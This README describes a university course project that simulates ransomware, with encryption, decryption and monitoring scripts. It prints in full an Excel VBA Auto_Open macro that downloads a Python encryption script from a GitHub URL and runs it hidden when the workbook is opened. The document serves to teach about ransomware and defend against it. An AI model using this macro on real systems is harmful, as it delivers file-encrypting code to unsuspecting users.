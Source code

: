 # CSCE 5550 Ransomware Project

## Project Overview
This project simulates a ransomware attack by implementing encryption and decryption scripts, along with a monitoring and mitigation script. The main components include:

1. **Encryption Script** - Encrypts files in a specified directory.
2. **Decryption Script** - Decrypts files once the ransom has been "paid."
3. **Monitoring and Mitigation Script** - Detects and mitigates suspicious ransomware-like behavior, logging events in a database and sending alerts.

Additionally, an **Excel Macro** with VBA scripting is included to automatically download and execute the encryption script. This README will guide you through setting up the environment, installing necessary libraries, and understanding the project files.

---

## Environment Setup

### Requirements
1. **Python 3.8+** with the following libraries:
   - [`pycryptodome`](https://pypi.org/project/pycryptodome/) (for cryptographic functions)
   - [`watchdog`](https://pypi.org/project/watchdog/) (for monitoring file system events)
   - [`sqlite3`](https://docs.python.org/3/library/sqlite3.html) (for event logging, included by default in Python)

2. **VBA Macros** - Enabled in Excel to run the provided VBA script.

### Installation/Usage Steps

1. **Install Python Libraries**

    Run the following command to install the required libraries:

    ```bash
    pip install pycryptodome watchdog
    ```

2. **Set Up Directory Monitoring Script**

   In the `monitor_script.py`, specify the directory you want to monitor for suspicious activity. Modify the directory path in the script if needed.

3. **Utilizing the Encryption and Decryption Scripts**

   In `encryption_script.py` and `decryption_script.py`, specify the directory you want to encrypt/decrypt. Modify the directory path in the script if needed.

---

## Project Files

- `encryption_script.py`: Encrypts files in the specified directory.
- `decryption_script.py`: Decrypts files with the correct key.
- `monitor_script.py`: Monitors file system events, logs suspicious activity, and attempts to terminate ransomware-like processes.
- `malicious_macro.xlsm`: An Excel file with a macro to download and execute the encryption script upon opening.

---

## Using the Excel Macro for Auto-Execution

The `malicious_macro.xlsm` file contains a VBA macro that automatically downloads and executes the `encryption_script.py` file. The macro triggers on file open.

### VBA Macro Code

The following VBA code is embedded in the Excel file and is responsible for downloading and executing the `encryption_script.py`:

```vba
Sub Auto_Open()
    Dim http As Object
    Dim scriptPath As String
    scriptPath = Environ("USERPROFILE") & "\Downloads\encryption_script.py" ' Path to save in Downloads folder

    ' Display the script path to verify it's correct
    MsgBox "Script Path: " & scriptPath

    Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
    http.Open "GET", "https://raw.githubusercontent.com/ameyer12/csce5550-ransomware-project/refs/heads/main/encryption_script.py", False
    http.Send

    If http.Status = 200 Then
        Dim stream As Object
        Set stream = CreateObject("ADODB.Stream")
        stream.Type = 1
        stream.Open
        stream.Write http.responseBody
        stream.SaveToFile scriptPath, 2
        stream.Close

        ' Display command to check before execution
        Dim command As String
        command = "python " & scriptPath
        MsgBox "Command to run: " & command ' Show command to verify

        ' Run the command
        Shell command, vbHide
    Else
        MsgBox "Failed to download the script. Status: " & http.Status
    End If
End Sub
